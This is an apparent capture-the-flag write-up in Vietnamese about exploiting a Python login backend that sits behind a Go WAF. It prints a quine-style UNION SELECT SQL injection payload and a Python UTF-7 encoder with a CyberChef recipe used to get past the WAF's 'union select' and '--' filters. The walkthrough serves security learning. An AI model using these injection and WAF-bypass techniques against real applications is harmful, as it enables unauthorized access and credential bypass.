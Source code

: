 Đây là môt challenge bao gồm 1 backend được viết bằng python và 1 proxy (waf) viết bằng go
![image](https://github.com/user-attachments/assets/ff5bde2d-b8dd-4fad-99b2-7b20a775b6d1)

Đọc qua source thì waf thực hiện xử lý request, filter payload sqli, rce sau đó gửi tới backend
![image](https://github.com/user-attachments/assets/41625d7a-21dc-4762-b2f0-8996468cfac5)

Trong source backend thì mình tìm bug sqli, thực hiện chèn trực tiếp các param username và password vào câu lệnh truy vấn rồi mới thực thi
![image](https://github.com/user-attachments/assets/0c279e41-a14b-4e3c-ae42-5c3698fb5a84)


Nhưng do username fix cứng là admin nên không thể inject được, bắt buộc phải inject vào password. Sau khi query, thực hiện so sánh password của bản ghi đầu tiên với password nhập vào. Điều này khiến cho việc chèn nhưng payload như `' or '1'='1'` là không khả thi. Sau một hồi gg thì mình tìm được một trick có thể giúp cho phép trả về nội dung của câu lệnh truy vấn. [Document](https://stackoverflow.com/questions/4006189/quine-self-producing-sql-query/4006209#4006209)

```
SELECT * FROM blog_adminuser WHERE username = 'admin' and password = '' union select 1, 'admin', (select replace(replace('" union select 1, "admin", (select replace(replace("$",char(34),char(39)),char(36),"$")) --',char(34),char(39)),char(36),'" union select 1, "admin", (select replace(replace("$",char(34),char(39)),char(36),"$")) --')) --
```
Giải thích qua  thì mình sẽ thực hiện lặp lại 2 lần câu lệnh truy vấn ở đầu và cuối (vị trí `$`).

Sau khi tạo được payload thử gửi thẳng tới backend, ở đây mình build docker local và curl thẳng vào container của backend. 
![image](https://github.com/user-attachments/assets/0d5b6928-f236-450c-9c93-571176675ef0)

Thành công exploit sqli

Tiếp theo là bypass waf. Thường thì có một số kỹ thuật bypass waf như là encode payload, nối hoặc ngắt câu lệnh bằng cách chèn comment. Với regex như trên thì chỉ có thể là encode payload. 

Ở đây mình sử dụng encode [utf-7](https://en.wikipedia.org/wiki/UTF-7) phần body bằng cách thêm `;charset=utf7`
Nhưng do gặp các ký tự thuộc bảng mã ascii thì vẫn được giữ nguyên nên mình có viết script để encode các ký tự này.

```py
import base64
def base64_encode_utf7(text):
    utf16_bytes = text.encode('utf-16be')
    base64_bytes = base64.b64encode(utf16_bytes)
    base64_str = base64_bytes.decode().replace("/", ",")
    return '+'+base64_str.rstrip("=")+'-'
```
Encode ký tự 's' và '-' để bypass regex `union select` và `--`

![image](https://github.com/user-attachments/assets/9d7e4bd6-af7e-43cd-9f7a-85d8b8caa7b2)

Thực hiện encode utf7 và replace. [ricipe](https://cyberchef.org/#recipe=Encode_text('UTF-7%20(65000)')Find_/_Replace(%7B'option':'Simple%20string','string':'select'%7D,'%2BAHM-elect',true,true,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%2BACA---'%7D,'%2BACA-%2BAC0-%2BAC0-',true,false,true,false)&input=JyB1bmlvbiBzZWxlY3QgMSwgJ2FkbWluJywgKHNlbGVjdCByZXBsYWNlKHJlcGxhY2UoJyIgdW5pb24gc2VsZWN0IDEsICJhZG1pbiIsIChzZWxlY3QgcmVwbGFjZShyZXBsYWNlKCIkIixjaGFyKDM0KSxjaGFyKDM5KSksY2hhcigzNiksIiQiKSkgLS0nLGNoYXIoMzQpLGNoYXIoMzkpKSxjaGFyKDM2KSwnIiB1bmlvbiBzZWxlY3QgMSwgImFkbWluIiwgKHNlbGVjdCByZXBsYWNlKHJlcGxhY2UoIiQiLGNoYXIoMzQpLGNoYXIoMzkpKSxjaGFyKDM2KSwiJCIpKSAtLScpKSAtLQ)

![image](https://github.com/user-attachments/assets/de1e8ab4-3c4e-447d-9d01-e938eb107279)

![image](https://github.com/user-attachments/assets/fdbc7736-833f-407a-ae8f-26b2e42e4f45)




